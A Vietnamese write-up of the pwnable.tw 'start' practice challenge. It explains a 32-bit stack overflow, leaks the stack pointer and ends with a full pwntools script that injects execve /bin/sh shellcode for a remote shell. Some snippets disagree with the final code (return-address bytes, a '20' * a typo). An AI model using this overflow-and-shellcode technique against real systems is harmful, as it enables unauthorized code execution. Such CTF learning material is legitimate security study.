

# [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:


Liệt kê strings:


Chạy thử:




Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'```

và

```start.s```

Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:

```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy


Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```